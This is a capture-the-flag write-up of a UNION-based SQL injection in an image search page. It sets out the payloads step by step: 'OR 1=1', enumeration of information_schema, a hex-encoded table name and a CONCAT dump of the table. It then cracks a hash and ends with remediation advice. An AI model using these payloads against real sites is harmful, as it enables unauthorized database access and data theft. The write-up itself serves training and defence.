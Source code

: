 # Write up SQL Injection page searchimg

# Exploration

During our exploration of the web application, we came across a functionality to search for information about images based on their ID:

![Capture d'écran 2024-05-02 à 20.09.50.png](images/Capture_decran_2024-05-02_a_20.09.50.png)

# Exploitation

Given that this functionality allows us to retrieve images, we deduced that it had an interaction with the database and was potentially vulnerable to SQL injection. To confirm, we used the following
payload:

**1 OR 1=1**

This returned all the images:

![Capture d'écran 2024-05-02 à 20.11.16.png](images/Capture_decran_2024-05-02_a_20.11.16.png)

Unlike the other SQL injection present in the application, we did not receive any errors but were still dealing with a UNION-based injection. This also confirms that there are two columns being returned,
corresponding to **Title** and **URL**:

![Capture d'écran 2024-05-02 à 20.12.24.png](images/Capture_decran_2024-05-02_a_20.12.24.png)

The base SQL query likely looks like this:

```php
# 'images?' correspond to the table name that we need to discover
SELECT ?,? FROM images? WHERE id=<our_payload>;
```

Using this payload:

**1 UNION SELECT null,table_name FROM information_schema.tables**

We were able to recover the name of the table we were looking for:

![Capture d'écran 2024-05-02 à 20.16.08.png](images/Capture_decran_2024-05-02_a_20.16.08.png)



Next, we recovered the names of the columns using this payload:

**1 UNION SELECT null,column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573**

We must encode **table_name** value in hexa, as it wasn't working with the literal value. We used this command:

```php
~ echo -n 'list_images' | xxd
00000000: 6c69 7374 5f69 6d61 6765 73              list_images
```

We got this:

![Capture d’écran 2024-05-02 à 20.37.17.png](images/Capture_decran_2024-05-02_a_20.37.17.png)


Then, by concataining the columns value, we were able to recover what we were looking for (Notice that for a strange reason, we were able to use the literal table name this time):

**1 UNION SELECT null,CONCAT(id,0x0a,url,0x0a,title,0x0a,comment) FROM list_images**

![Capture d’écran 2024-05-02 à 20.38.12.png](images/Capture_decran_2024-05-02_a_20.38.12.png)

Decoding the MD5 value, we obtained the word **albatroz**.

We then converted it to SHA256 for the flag:

```bash
~$ echo -n "albatroz" | openssl dgst -sha256
SHA2-256(stdin)= f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

# Remediation

SQL injections remain common vulnerabilities for web applications if we refer to the [OWASP Top 10](https://owasp.org/Top10/fr/). In 2021, injections (all types) ranked third:

![Capture d'écran 2024-05-02 à 20.04.09.png](images/Capture_decran_2024-05-02_a_20.04.09.png)

This can lead to severe consequences for vulnerable sites, including:

- Data manipulation or deletion
- Privilege escalation
- Information leakage
- Remote command execution

To protect yourself, follow these steps:

- Use an ORM that supports prepared queries
- Validate user input
- Never use user-controllable data in SQL queries
- Follow the principle of least privilege
- Encrypt sensitive data in the database
